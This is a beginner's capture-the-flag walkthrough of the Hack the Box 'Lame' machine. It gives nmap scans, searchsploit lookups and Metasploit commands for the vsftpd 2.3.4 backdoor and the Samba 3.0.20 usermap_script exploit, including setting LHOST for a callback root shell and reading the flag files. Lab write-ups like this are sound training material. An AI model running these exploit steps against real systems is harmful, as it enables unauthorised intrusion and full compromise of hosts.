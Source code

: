 ```yaml
---
title: "Walkthrough of Lame Machine – Hack the Box"
description: ""
date: 2020-08-23T23:56:20-07:00
lastmod: 2020-08-23T23:56:20-07:00
cover: ""
coverAlt: ""
toc: false
tags: [ "HacktheBox",
    	"Walkthrough",
]
draft: false
---
```


1.	In a new terminal window, run `nmap -sV -O -F --version-light 10.10.10.3`
![Image](https://user-images.githubusercontent.com/44144070/89726880-9b4c8980-d9d4-11ea-9c66-4269c021413f.png)
	* Another option is to open **Zenmap** and run a port scan on the same IP (to see just the information on the ports, you can go to the **Ports/Hosts** tab)
        * **Zenmap** is a program that does a really good job at visualizing and breaking down `nmap` commands into digestible bites
    ![Image](https://user-images.githubusercontent.com/44144070/89726888-b7502b00-d9d4-11ea-9a64-1e5bd559f122.png)
    ![Image](https://user-images.githubusercontent.com/44144070/89726889-b8815800-d9d4-11ea-8bab-4a7be888eae5.png)
    * Now there a a LOT of different ways to use `nmap`, and being that I'm still learning you are going to be seeing a lot of different versions, but I will do my best to explain what each version does. The two versions used here I got from other tutorials and show different levels of detail when port scanning.
        * The first version we used was `nmap -sV -O -F --version-light 10.10.10.3`
            * `-sV`: Probes open ports to determine service/version info
            * `-O`: Enable OS detection
            * `-F`: Fast mode, scans fewer ports than the default scan
            * `--version-light`: Limit to most likely probes
        - The second version used (as seen in the **Zenmap** screenshot) was `nmap -A -v 10.10.10.3`
            - `-A`: Enable OS detection, version detection, script scanning, and traceroute
            - `-v`: Increase verbosity level (how detailed the process and results are)
2.	You’ll find that there are 4 available ports with different services running on them (21, 22, 139, 445)
3.	Port 21 shows **vsftpd 2.3.4**, let’s check if there are any known vulnerabilities
4.	Run command `searchsploit vsftpd 2.3.4`
	- What this does is search for any [Common Vulnerability and Exploits (CVE)](https://cve.mitre.org/about/index.html) and returns the name and location of the exploit in Kali
    ![Image](https://user-images.githubusercontent.com/44144070/89726895-be773900-d9d4-11ea-8b21-a2ea0eb85645.png)
5.	You'll see that there is one vulnerability, a *"Backdoor Command Execution"*
6.	We can try and use this vulnerability with **Metasploit**
	- **Metasploit** is a very nifty software that has a bunch of CVE exploits saved that can be run automatically
7.	Open **Metasploit** and use the command `search vsftpd 2.3.4`
    ![Image](https://user-images.githubusercontent.com/44144070/89726896-bfa86600-d9d4-11ea-9c96-eed449fe639d.png)
8.	You'll see 4 different options, and the fourth one will be our *"Backdoor Command Execution"* exploit
9.	Copy the address and run `use exploit/unix/ftp/vsftpd_234_backdoor`
10.	Type `show options` and we'll see that we need to set **RHOSTS** to the desired IP
    ![Image](https://user-images.githubusercontent.com/44144070/89726897-c040fc80-d9d4-11ea-8180-bbc1cf91524f.png)
11.	Do `set rhost 10.10.10.3`
12.	If we do `show options` again, then we'll see its set and can type `run`
	- What this does is tell **Metalsploit** where to direct the exploit
    ![Image](https://user-images.githubusercontent.com/44144070/89726898-c0d99300-d9d4-11ea-85af-1a4a549e7948.png)
13.	After a little bit, we'll get a message saying, *“Exploit completed, but no session was created”*,    meaning that the exploit was attempted but didn’t' work (if we do some [research](https://www.exploit-db.com/exploits/17491), it turns out that this exploit had since been fixed which is why our attempt failed)
    ![Image](https://user-images.githubusercontent.com/44144070/89726899-c1722980-d9d4-11ea-95b4-e9fb64ffb433.png)
14.	Let's continue to check the other option on port 139, **Samba**
15.	Run `search Samba 3.0.20` (which we know from our port scan) and we see two results.
    ![Image](https://user-images.githubusercontent.com/44144070/89726900-c20ac000-d9d4-11ea-9099-911a217b2ce9.png)
16.	We're going to want to focus on the first result, *"'Username map script' Command Execution"*
17.	We search that vulnerability in **Metasploit** with `searchsploit Samba 3.0.20`
    ![Image](https://user-images.githubusercontent.com/44144070/89726901-c20ac000-d9d4-11ea-85e7-e2c36f8375e4.png)
18.	We got a lot more options this time, but if we scroll through we see that option 15 is our *"username map script" Command Execution* vulnerability and copy the address and run `use exploit/multi/samba/usermap_script`
19.	Again we look at the settings and change the **RHOSTS** to our IP with show options and `set rhost 10.10.10.3` and then we're good to `run`
    ![Image](https://user-images.githubusercontent.com/44144070/89726902-c2a35680-d9d4-11ea-9203-f5b35506d1b9.png)
20.	Chances are (unless you set it up before), you'll get the same message from when we ran the **vsftpd 2.3.4 exploit** *“Exploit completed, but no session was created”*, but if you run `show options` again, you'll see a new section
    ![Image](https://user-images.githubusercontent.com/44144070/89726903-c2a35680-d9d4-11ea-90b9-85e20e6f1227.png)
21.	Now we have an **LHOST** and **LPORT** section, but the natural **LHOST** is not what we want because HTB gives us our own local IP for when we are on its VPN. You can find yours in the **Access** settings on the HTB website
    ![Image](https://user-images.githubusercontent.com/44144070/89726904-c33bed00-d9d4-11ea-9645-090c1b55201a.png)
22.	Run `set lhost yourHtbIp` and then try `run` again
23.	You should see some new messages and after a few seconds one that says, *“Command shell session 1 opened”*, and we're in!
    ![Image](https://user-images.githubusercontent.com/44144070/89726905-c33bed00-d9d4-11ea-8fbf-1b58f3e2a092.png)
24.	Now that we have a shell, we can check what kind of privileges we have with `whoami`

    ![Image](https://user-images.githubusercontent.com/44144070/89726906-c3d48380-d9d4-11ea-90be-560bf8e6e84f.png)
25.	Turns out we are already in as the root user! Now all we need to do is find the password hashes under user.txt and root.txt
26.	From here we have the option of either digging around in all the files and directories for what we want, or we can use this command `find / -type f -name “nameOfFile”` where nameOfFile will be replaced with user.txt and root.txt
	- This command will return the file address of whatever file you put in place of *"nameOfFile"*. We know what to search for because HTB machines often store the user and root hashes in files named user.txt and root.txt
    ![Image](https://user-images.githubusercontent.com/44144070/89726907-c3d48380-d9d4-11ea-9444-af9a860827a4.png)
27.	Once we find the locations of the two files, we can just run `cat fileAddress` where fileAddress is what we got with the find command
28.	Take those hashes and submit them on your HTB account and get the points!

## Resources
- [Official Lame Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/1)
- [Tutorial from freecodecamp.org](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)

###### <font size="1">075 108 097 108 106 097 112 099 108 032 083 112 108 098 097 108 117 104 117 097 032 068 112 115 115 112 104 116 032 090 118 116 108 121 122 108 097</font>